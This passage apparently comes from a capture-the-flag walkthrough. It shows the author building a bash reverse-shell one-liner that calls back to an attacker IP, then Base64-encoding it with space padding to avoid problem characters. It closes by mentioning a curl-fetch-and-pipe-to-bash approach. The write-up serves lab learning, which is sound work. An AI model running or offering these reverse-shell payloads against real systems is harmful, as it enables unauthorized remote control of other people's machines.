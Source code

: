 ![](/img/image-20230313183519151.png)

There's no connection at my `nc` listening on 443.

I'll encode the payload with Base64:



    oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==



With a couple extra spaces I can get rid of the special characters (`+`
and `=`):



    oxdf@hacky$ echo ' bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
    IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
    oxdf@hacky$ echo ' bash -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64 -w0
    IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK



I can try that as well by sending this:

![](/img/image-20230313184201736.png)

It still doesn't connect.

#### Success By curl

My original solve was to try to use `curl` to request a payload from my
host and pipe that into `bash`.

![](/img/image-20230313184312048.png)

